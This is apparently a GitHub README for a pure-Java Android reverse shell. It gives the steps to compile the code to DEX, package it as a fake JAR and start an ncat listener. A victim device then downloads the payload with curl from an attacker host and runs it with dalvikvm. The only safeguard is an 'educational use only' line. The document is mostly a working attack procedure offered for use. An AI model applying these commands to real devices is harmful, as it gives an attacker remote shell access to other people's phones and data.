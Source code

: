 # Pure Java Android Reverse Shell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATE WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

. Support for SSL encryption

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

